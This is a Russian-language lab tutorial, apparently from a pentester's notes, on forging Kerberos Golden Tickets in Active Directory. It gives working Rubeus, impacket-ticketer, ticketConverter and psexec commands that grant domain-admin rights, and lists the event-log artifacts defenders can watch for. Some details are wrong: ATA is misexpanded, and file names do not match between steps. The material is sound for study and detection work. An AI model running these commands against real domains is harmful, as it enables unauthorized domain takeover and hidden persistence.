



> [!important]  
> Атака Golden Ticket позволяет злоумышленнику выпустить золотой билет Kerberos (TGT) с помощью секретного ключа (хэш) сервисной учетной записи KRBTGT. Данная техника позволяет максимально скрыть следы своего присутствия, поскольку для инфраструктуры злоумышленник будет казаться легитимным пользователем, но без фактической аутентификации и с желаемыми правами.  

# Теория

**Примечание:** _Поскольку для проведения атаки самостоятельного выпуска TGT необходим ключ krbtgt, важнейшим аспектом является само получение этого ключа. Дело в том, что для раскрытия секретов сервисной УЗ необходимы административные права в домене. Поэтому, для успешного проведения атаки Golden Ticket, необходимо быть администратором домена или сдампить базу AD._

## Немного про TGT

TGT (Ticket Granting Ticket) или билет, удостоверяющий личность пользователя — это сущность, которая является доказательством успешно пройденной аутентификации.

В самом AS_REQ фигурируют атрибуты:

- User Principal Name
- Domain Name (Realm)
- Service Principal Name
- Copy of the Session Key
- Pre-Authentication Timestamp, зашифрованный с помощью ключа, который был создан на основе пароля от учетной записи

Атрибуты AS REP:

- User Principal Name
- Domain Name
- Service Principal Name
- Copy of the Session Key
- Privilege Attribute Certificate (PAC)
- Time To Live (TTL)

Хотя по умолчанию TGT обычно действительны в течение 10 часов, злоумышленник может сделать их действительным в течение любого промежутка времени, вплоть до 10 лет.

## Что нужно для выпуска TGT

Для выпуска собственного билета потребуется:

1. SID домена.
2. SID и имя пользователя
3. Хэш учетной записи KRBTGT

### Узнаём SID домена

`(Get-ADDomain).DomainSID.Value`

### Узнаем SID и имя пользователя

`whoami /user`

Или

`Get-ADUser goldenticket_user`

### Узнаем хэш KRBTGT

Для получения хэша, проводим атаку [[DC Sync)

# Практика

После успешного получения необходимой информации, можно начать проводить атаку. Будет рассмотрено 2 случая: локально и удаленно. Для локальной атаки буду использовать `Rubeus`, для удаленной- `ticketer.py`

## Локальный выпуск билета

Для начала, проверим наши права на чтение каталога контроллера домена.

Теперь командой `klist purge` очистим все билеты в сессии

Создаем золотой билет для обычного доменного пользователя. Теперь он будет иметь права администратора (id 500) и состоять в сопутствующих группах: 513 (Пользователи домена), 512 (Администраторы домена), 519 (Администраторы предприятия), 518 (Администраторы схемы), 520 (Владельцы-создатели групповой политики)

`.\Rubeus.exe golden /newpac /domain:test.local /sid:S-1-5-21-3271603407-350436319-1246551825 /rc4:443867096fbe25b90fd8e4e612cb98d8 /user:goldenticket_user /ptt`

Снова проверим билеты в сессии:

Как видно, билет был внедрен в сессию. Настало время проверить работоспособность:

**Примечание: важным моментом является очистить кэшированные в сессии билеты. В противном случае, выпущенный билет не будет работать!**

  

Также стоит отметить момент использования флага **/newpac** при выпуске билета с помощью Rubeus. Всё дело в обновлении [KB5008380](https://support.microsoft.com/en-gb/topic/kb5008380-authentication-updates-cve-2021-42287-9dafac11-e0d0-4cb8-959a-143bd0201041). Усовершенствованный процесс аутентификации добавляет новую информацию о том, кто запросил билет в Privilege Attribute Certificate (PAC), которая записывается в TGT. Если выпускать билет по старому формату, то он попросту не будет работать.

## Удаленный выпуск билета

Для начала, выпустим билет на своей локальной машине:

`impacket-ticketer -domain-sid S-1-5-21-3271603407-350436319-1246551825 -domain test.local goldenticket_user -aes bbe9b2be44a69f8492d4bc9276989c7d623bb04a5da893298a8ba770087ba065`

И сразу заэкспортим билет в переменную окружения:

`export KRB5CCNAME=goldenticket_user.ccache`

Как видно, здесь используется не **RC4** (**NT**) хэш, а **AES-256**. Это поможет скрыть обнаружение **ATA** (Advanced Technology Attachment).

После этого, мы можем проверить корректность с помощью **PSEXEC**:

`impacket-psexec “test.local/goldenticket_user@dc_test.test.local” -k -no-pass`

### Получаем билет локально и используем удаленно

Допустим, мы выпустили билет с помощью **Rubeus** и хотим, чтобы он был в нашем распоряжении на локальном хосте для возможности использовать его удаленно в любое время. Тогда для этих целей мы можем использовать **ticketConverter** из набора **Impacket.** Это является необходимым, если вы хотите использовать билет на Unix системах

Для этого выпустим билет, но не будем его внедрять в нашу сессию. Вместо этого, просто сохраним его в файл:

`.\Rubeus.exe golden /newpac /domain:test.local /sid:S-1-5-21-3271603407-350436319-1246551825 /rc4:443867096fbe25b90fd8e4e612cb98d8 /user:goldenticket_user /outfile:1.kirbi`

Теперь, например, перенесем билет на шару и заберем его с Kali:

`impacket-ticketConverter ticket.kirbi ticket.ccache`

Теперь также экспортим билет и проверяем:

`export KRB5CCNAME=converted.ccache`

`impacket-psexec “test.local/goldenticket_user@dc_test.test.local” -k -no-pass`

Для обратной ситуации (выпуск билета на линукс и использование на Windows), можно использовать [kekeo](https://github.com/gentilkiwi/kekeo)

## Профит

В конечном счете, мы имеем обычный доменный аккаунт, который обладает административными правами. Несмотря на то, чтобы достичь такого результата, необходимо добыть секреты krbtgt, это отличная техника для персиста.

# Артефакты

В данном случае, основными артефактами проведенной атаки служат:

1. Отсутствие **MSGID 4768** (Запрос TGT)
2. В событии **MSGID 4769** (Запрос TGS):
    1. Тип шифрования 0x17- RC4 (частный случай, который служит серьезным артефактом. Можно использовать также AES - 0x12)
3. В событии **MSGID 4624** (Вход в систему):
    1. Субъект в первой записи отсутствует
        
        
        
    2. Новый вход имеет ИД безопасности “Администратор” и имя УЗ нашего пользователя (у него нет таких прав)
        
        
        
4. В событии **MSGID 4634** (Выход из системы):
    
    1. ИД безопасности “Администратор” и имя УЗ нашего пользователя
    
    
    

Различие ИД безопасности “Администратор” и имя УЗ “goldenticket_user” можно объяснить следующим образом: **SID пользователя не соответствует его имени (другие права)**

  

_Тесты проводились на WS2016_